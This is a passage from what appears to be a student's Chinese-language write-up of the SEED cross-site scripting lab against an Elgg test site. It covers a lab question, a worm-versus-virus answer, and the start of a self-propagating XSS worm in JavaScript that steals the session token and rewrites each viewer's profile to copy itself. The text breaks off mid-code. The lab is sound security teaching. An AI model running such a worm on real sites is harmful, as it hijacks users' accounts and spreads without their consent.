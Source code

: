 ```JavaScript
	}
}
```

访问Samy的主页后，Boby的Profile被修改，攻击已经生效。

![image](https://user-images.githubusercontent.com/64548919/206897691-890aa8e8-da77-4344-b589-e7bbd43a79e9.png)

接下来回答一下问题。

Q3: Why do we need Line ➀? Remove this line, and repeat your attack. Report and explain your observation.

这一行的功能主要是防止自己被攻击。

去除这一行后，可以发现自己的profile也被修改了。

![image](https://user-images.githubusercontent.com/64548919/206897874-1e6290a6-e443-4470-a7a1-994f2a3d2f04.png)

### 3.7 Task 6: Writing a Self-Propagating XSS Worm

在做这个部分之前，先回答张锋巍老师在lecture中下午18:05布置的一个作业：

```
Boom和Virus的区别是什么？
```

回答：

```
先看二者的定义：

病毒是编制者在计算机程序中插入的破坏计算机功能或者数据的代码，能影响计算机使用，能自我复制的一组计算机指令或者程序代码。

蠕虫是一种能够利用系统漏洞通过网络进行自我传播的恶意程序。它不需要附着在其他程序上，而是独立存在的。当形成规模、传播速度过快时会极大地消耗网络资源导致大面积网络拥塞甚至瘫痪。

他们的区别主要集中于：

1. 病毒需要寄生于主机文件上，而蠕虫不需要寄生于主机文件上，只需要网络漏洞
2. 病毒的传播需要人为干预如邮件或者硬件驱动，而蠕虫不需要人为的干预
3. 病毒的传播速度比较慢，蠕虫的传播速度比较快
```

Task6的完成需要修改Task5的js代码，我修改为如下代码：

```JavaScript
<script type="text/javascript" id="worm">
window.onload = function(){
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var content = token+ts+"&name="+userName+"&description=&accesslevel%5Bdescription%5D=2&briefdescription="+wormCode+"&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=11910104@mail.sustech.edu.cn&accesslevel%5Bcontactemail%5D=2&phone=114514&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=www.bilibili.com&accesslevel%5Bwebsite%5D=2&twitter=1919810&accesslevel%5Btwitter%5D=2&guid="+guid;
    //Construct the content of your url.
    var samyGuid=47; //FILL IN
    if(elgg.session.user.guid!=samyGuid)
    {
    	//Create and send Ajax request to modify profile
```